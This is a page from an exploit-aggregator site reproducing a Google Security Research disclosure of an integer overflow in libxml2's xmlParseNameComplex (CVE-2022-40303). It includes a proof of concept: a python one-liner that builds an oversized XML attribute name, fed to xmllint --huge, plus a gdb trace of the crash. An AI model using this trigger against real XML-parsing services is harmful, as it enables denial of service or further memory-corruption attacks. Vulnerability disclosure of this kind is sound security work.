 ```yaml
---
title: libxml2 xmlParseNameComplex Integer Overflow exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:169825&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-15
fetch_date: 2025-10-03T22:43:43.802573
---
```


# libxml2 xmlParseNameComplex Integer Overflow exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for libxml2 xmlParseNameComplex Integer Overflow CVE-2022-29824 CVE-2022-40303

2022-11-14 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:169825
libxml2: Integer overflow in xmlParseNameComplex

libxml2 is vulnerable to an integer overflow in `xmlParseNameComplex` when an attribute list has a very long name (name is >= 2**32 characters).

```
static const xmlChar *xmlParseNameComplex(xmlParserCtxtPtr ctxt) {
int len = 0, l;
[...]
return (xmlDictLookup(ctxt->dict, ctxt->input->cur - len, len));
}
```

If the name is greater than or equal to 2**32 characters, then `len` overflows. The calculation for the second argument to xmlDictLookup (`ctxt->input->cur - len`) will point to an address outside of the buffer such as adding 0x80000000 to `cur`.

Exploiting this issue using static XML requires that the `XML_PARSE_HUGE` flag is used to disable hardcoded parser limits. Though similar to Felix’s report [\(CVE-2022-29824\)](https://gitlab.gnome.org/GNOME/libxml2/-/issues/351) it may be possible to trigger without the flag using XSLT or xpath though I didn’t look into this.

_Note: XML_PARSE_HUGE looks very brittle in general. Signed 32-bit integers are widely used as sizes/offsets throughout the codebase, a lot of the helper functions don’t handle inputs larger than 4GB correctly and fuzzers won’t trigger these edge cases. Maybe that flag should include a security warning? Some security critical projects like xmlsec enable it by default (https://github.com/lsh123/xmlsec/commit/3786af10953630cd2bb2b57ce31c575f025048a8) which seems risky._

Proof of Concept:
```
$ python3 -c 'print("<!DOCTYPE doc [\n<!ATTLIST src " + "a"*(0x80000000) + " IDREF #IMPLIED>")' > name_big.xml
$ ./xmllint --huge /tmp/name_big.xml

Program received signal SIGSEGV, Segmentation fault.
__strlen_evex () at ../sysdeps/x86_64/multiarch/strlen-evex.S:77
77 ../sysdeps/x86_64/multiarch/strlen-evex.S: No such file or directory.
(gdb) bt
#0 __strlen_evex () at ../sysdeps/x86_64/multiarch/strlen-evex.S:77
#1 0x00007ffff7e3a374 in xmlDictLookup (dict=0x421a50, name=0x7ffff795602e <error: Cannot access memory at address 0x7ffff795602e>, len=-2147483648)
at /usr/local/google/home/maddiestone/libxml2/dict.c:878
#2 0x00007ffff7e6607a in xmlParseNameComplex (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:3617
#3 0x00007ffff7e65395 in xmlParseName (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:3682
#4 0x00007ffff7e6f27e in xmlParseAttributeListDecl (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:6729
#5 0x00007ffff7e71a00 in xmlParseMarkupDecl (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:7754
#6 0x00007ffff7e79ed1 in xmlParseInternalSubset (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:9407
#7 0x00007ffff7e79a16 in xmlParseDocument (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:12165
#8 0x00007ffff7e819fe in xmlDoRead (ctxt=0x421750, URL=0x0, encoding=0x0, options=4784128, reuse=0)
at /usr/local/google/home/maddiestone/libxml2/parser.c:17044
#9 0x00007ffff7e81ad7 in xmlReadFile (filename=0x7fffffffdec7 "../qname_big.xml", encoding=0x0, options=4784128)
at /usr/local/google/home/maddiestone/libxml2/parser.c:17109
#10 0x000000000040a135 in parseAndPrintFile (filename=0x7fffffffdec7 "../qname_big.xml", rectxt=0x0)
at /usr/local/google/home/maddiestone/libxml2/xmllint.c:2366
#11 0x0000000000407574 in main (argc=3, argv=0x7fffffffdac8) at /usr/local/google/home/maddiestone/libxml2/xmllint.c:3757
(gdb) up
#1 0x00007ffff7e3a374 in xmlDictLookup (dict=0x421a50, name=0x7ffff795602e <error: Cannot access memory at address 0x7ffff795602e>, len=-2147483648)
at /usr/local/google/home/maddiestone/libxml2/dict.c:878
878 l = strlen((const char *) name);
(gdb) up
#2 0x00007ffff7e6607a in xmlParseNameComplex (ctxt=0x421750) at /usr/local/google/home/maddiestone/libxml2/parser.c:3617
3617 return (xmlDictLookup(ctxt->dict, ctxt->input->cur - len, len));
(gdb) p/x len
$5 = 0x80000000
(gdb) p/x $_siginfo
$6 = {si_signo = 0xb, si_errno = 0x0, si_code = 0x1, _sifields = {_pad = {0xf795602e, 0x7fff, 0x0 <repeats 26 times>}, _kill = {si_pid = 0xf795602e,
si_uid = 0x7fff}, _timer = {si_tid = 0xf795602e, si_overrun = 0x7fff, si_sigval = {sival_int = 0x0, sival_ptr = 0x0}}, _rt = {si_pid = 0xf795602e,
si_uid = 0x7fff, si_sigval = {sival_int = 0x0, sival_ptr = 0x0}}, _sigchld = {si_pid = 0xf795602e, si_uid = 0x7fff, si_status = 0x0, si_utime = 0x0,
si_stime = 0x0}, _sigfault = {si_addr = 0x7ffff795602e, _addr_lsb = 0x0, _addr_bnd = {_lower = 0x0, _upper = 0x0}}, _sigpoll = {
si_band = 0x7ffff795602e, si_fd = 0x0}}}
(gdb) p/x ctxt->input->cur
$7 = 0x7fff7795602e
```

Related CVE Numbers: CVE-2022-29824,CVE-2022-40303.

Found by: Google Security Research
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)